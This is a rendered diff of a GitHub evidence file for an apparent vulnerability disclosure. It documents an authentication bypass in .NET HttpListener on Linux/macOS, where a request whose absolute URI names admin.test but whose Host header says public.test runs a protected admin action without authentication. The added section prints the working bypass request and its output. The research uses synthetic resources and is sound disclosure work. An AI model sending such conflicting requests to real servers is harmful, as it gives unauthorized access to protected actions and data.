

Before and after one commit to SamCloudJourney/basic-website, a Markdown page: research/dotnet-httplistener-auth-bypass/EVIDENCE.md, 2 parts joined by grey strips. Shown at 81% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Add framework-owned auth boundary and integrity terminal evidence

````diff
--- a/research/dotnet-httplistener-auth-bypass/EVIDENCE.md
+++ b/research/dotnet-httplistener-auth-bypass/EVIDENCE.md
@@ -4,9 +4,10 @@
 
 Validated end-to-end on supported serviced runtimes using researcher-controlled local sockets only.
 
-Clean GitHub Actions run:
+Clean GitHub Actions runs:
 
-- https://github.com/SamCloudJourney/basic-website/actions/runs/35525493054
+- Authority + selector causal-control run: https://github.com/SamCloudJourney/basic-website/actions/runs/35525493054
+- State-changing admin-action run: https://github.com/SamCloudJourney/basic-website/actions/runs/35525740561
 - Branch: `research/dotnet-runtime-authority-final-20260920`
 
 ## Attack request
@@ -148,3 +149,58 @@ AUTH_SCHEME_BYPASS_SENTINEL_c2a7 returned to unauthenticated client
 ```
 
 All endpoints, names, credentials, and secrets used by the reproduction are synthetic and researcher-controlled.
+
+
+## Framework-owned authentication boundary
+
+This is not only an application-level authorization pattern. The decisive reproduction uses
+`HttpListener.AuthenticationSchemeSelectorDelegate`, a framework authentication feature.
+
+Microsoft's current documentation for `HttpListener.AuthenticationSchemes` explicitly states that:
+- HttpListener returns an incoming request to application code only after successful authentication; and
+- applications that need different authentication mechanisms based on request characteristics may choose based on `Url` or `UserHostName` via `AuthenticationSchemeSelectorDelegate`.
+
+The vulnerable managed implementation makes those two Microsoft-documented selector inputs disagree for the same request.
+
+Documentation:
+https://learn.microsoft.com/en-us/dotnet/api/system.net.httplistener.authenticationschemes?view=net-10.0
+
+## Integrity terminal
+
+The clean proof also protects a synthetic state-changing admin action with Basic authentication.
+
+Normal unauthenticated request:
+
+```http
+POST /admin-action HTTP/1.1
+Host: admin.test
+Content-Length: 0
+```
+
+Result:
+
+```text
+401 Unauthorized
+stateChange=False
+```
+
+Conflicting absolute-form request:
+
+```http
+POST http://admin.test:<port>/admin-action HTTP/1.1
+Host: public.test
+Content-Length: 0
+```
+
+On managed Linux/macOS, the built-in selector chooses Anonymous from `UserHostName=public.test`,
+while routing sees `Url.Host=admin.test`. The protected action executes and returns:
+
+```text
+ADMIN_STATE_CHANGE_SENTINEL_83bd
+ADMIN_ACTION_EXECUTED=true
+```
+
+The Windows/http.sys negative control challenges the same request with Basic authentication and does not execute the action.
+
+This demonstrates both confidentiality (protected admin secret retrieval) and integrity (protected admin action execution)
+using synthetic, researcher-controlled resources.
````
